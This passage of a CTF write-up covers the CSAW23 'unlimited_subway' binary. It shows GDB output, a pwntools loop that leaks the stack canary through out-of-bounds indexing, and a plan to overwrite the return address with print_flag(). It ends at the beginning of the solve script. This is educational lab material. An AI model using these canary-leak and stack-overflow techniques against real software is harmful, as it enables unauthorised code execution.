 ```
[192]  0x00000001
[196]  0xf7e28de7
[200]  0x00000654
[*] Stopped process '/home/user/CTF/CSAW23/share/unlimited_subway_patched' (pid 7628)
```
And GDB gave us: `[+] The canary of process 7628 is at 0xff81d8ab, value is 0x4775600
[8:16 PM]`

So we know it's between -93 and 97. 
```python
    for i in range(93, 97):
        r.sendline("V")
        r.recvuntil("Index : ")
        r.sendline(str(-i))
        result = r.recvline().strip().decode()
        bits = result.split(": ")[1]
        canary += bits
```
```
The canary of process 7985 is at 0xffcc400b, value is 0x8c917300
canary:  0x8c917300
```
We got the canary. 

Now we can overflow the buffer and overwrite the return address with the address of `print_flag()`. We can do this using the name size and name inputs.

In my initial approach to leaking the stack canary, I attempted to use negative indexing to read the canary values from the stack. However, we encountered a segmentation fault issue that hindered our progress. While the exact cause of the segmentation fault wasn't immediately apparent, it was crucial to adapt our strategy to successfully retrieve the canary. To overcome this obstacle, I decided to switch to positive indexing, which allowed us to read the canary bits without encountering the segmentation fault. This shift in our approach underscored the significance of adaptability and flexibility within the realm of binary exploitation. It serves as a reminder that this field often presents unforeseen challenges, demanding quick and pragmatic adjustments to otherwise good tactics.


Now we must find the amount of padding we need. We just did this by sending in A's and narrowed it down to 64. 


To exploit the vulnerability, we construct the payload by sequentially combining elements: 'garbage' (typically lots of 'AAAA's) to fill the buffer, the 'canary' to bypass buffer overflow protection, 'AAAA' to account for padding and the saved frame pointer, and finally, the address of our `print_flag()`.

This image shows the stack layout:
![](https://i.imgur.com/rzMl36Q.png)

Finally, we can write the exploit:

### Solve Script

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./unlimited_subway_patched")

context.binary = exe

# Define a function to establish a connection, either local or remote.
def conn():
    if args.LOCAL:
        r = process([exe.path])
        # If debugging is enabled, attach GDB to the local process.
        if args.DEBUG:
```